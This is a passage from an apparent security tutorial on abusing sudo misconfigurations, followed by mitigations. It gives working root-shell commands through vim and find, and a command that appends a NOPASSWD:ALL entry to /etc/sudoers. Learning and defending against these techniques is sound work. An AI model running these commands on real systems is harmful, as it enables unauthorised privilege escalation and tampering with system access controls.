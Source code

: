 1. Visit the GTFOBins website.
2. Search for the binary listed in `sudo -l`.
3. Follow the provided exploitation commands.

## **Real-World Scenarios**

### **Scenario 1: Exploiting `vim`**

A user has `sudo` permissions for `/usr/bin/vim`:

```bash
sudo vim -c ':!bash'
```

This spawns a root shell.

### **Scenario 2: Exploiting `find`**

A user can run `find` with sudo:

```bash
sudo find / -exec /bin/bash \;
```

This command uses `find` to execute a root shell.

### **Scenario 3: Editing Sensitive Files**

If `sudo tee` is allowed:

```bash
echo "amr ALL=(ALL) NOPASSWD:ALL" | sudo tee -a /etc/sudoers
```

This grants the user full sudo privileges.

## **Mitigation Strategies**

### **Limit Sudo Permissions**

- Avoid using `ALL` or `NOPASSWD` for binaries unless absolutely necessary.
- Only allow specific, non-exploitable commands.

### **Use NOEXEC**

Prevent certain binaries from spawning subshells by enabling `NOEXEC` in the sudoers configuration:

```bash
Defaults!/usr/bin/vim noexec
```

### **Audit Sudo Configurations**

Regularly review the `/etc/sudoers` file and related configurations to identify and remove unnecessary permissions.
